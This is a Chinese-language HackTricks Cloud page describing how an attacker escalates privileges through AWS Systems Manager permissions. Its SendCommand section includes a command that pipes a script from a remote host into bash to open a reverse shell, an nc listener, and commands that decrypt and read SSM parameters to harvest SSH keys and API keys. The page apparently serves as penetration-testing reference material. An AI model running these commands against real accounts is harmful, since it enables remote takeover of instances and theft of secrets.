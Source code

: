 # AWS - SSM权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## SSM

有关SSM的更多信息，请查看：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

拥有**`ssm:SendCommand`**权限的攻击者可以在运行Amazon SSM代理的实例中**执行命令**，并**威胁到其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
如果您正在使用此技术来提升已经受损 EC2 实例内的权限，您可以通过以下方式在本地捕获反向 shell：
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在影响:** 直接提升权限至运行具有运行SSM代理的EC2 IAM角色。

### `ssm:StartSession`

拥有**`ssm:StartSession`**权限的攻击者可以在运行Amazon SSM代理的实例中**启动类似SSH的会话**，并**危害其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
要启动会话，您需要安装**SessionManagerPlugin**：[https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在影响：** 直接提升权限以访问运行中带有运行SSM代理的EC2 IAM角色。

#### 提升权限至ECS

当**ECS任务**以**启用`ExecuteCommand`**的方式运行时，具有足够权限的用户可以使用`ecs execute-command`在容器内部**执行命令**。\
根据[**文档**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)，这是通过在启动“_exec_”命令的设备和带有SSM会话管理器的目标容器之间创建安全通道来完成的。\
因此，具有`ssm:StartSession`权限的用户将能够通过以下方式在启用该选项的ECS任务中获取shell：
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在影响:** 直接提升至运行具有`ExecuteCommand`启用的`ECS`IAM角色的任务。

### `ssm:ResumeSession`

拥有权限**`ssm:ResumeSession`**的攻击者可以在运行Amazon SSM Agent的实例中重新**启动类似SSH的会话**，当SSM会话状态**断开**时，并**危及其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在影响:** 直接提升至运行实例附加的 EC2 IAM 角色，前提是运行 SSM 代理并且会话处于断开状态。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

具有上述权限的攻击者将能够列出 **SSM 参数** 并以明文形式**读取**它们。在这些参数中，您经常可以找到诸如 SSH 密钥或 API 密钥等**敏感信息**。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在影响:** 查找参数中的敏感信息。

### `ssm:ListCommands`

拥有此权限的攻击者可以列出所有发送的**命令**，并希望在其中找到**敏感信息**。
```
aws ssm list-commands
```
**潜在影响:** 在命令行中查找敏感信息。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

拥有这些权限的攻击者可以列出所有发送的**命令**并**读取生成的输出**，希望在其中找到**敏感信息**。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在影响:** 在命令行输出中查找敏感信息。

### Codebuild

您还可以使用SSM进入正在构建的codebuild项目：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>从零开始学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版本的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
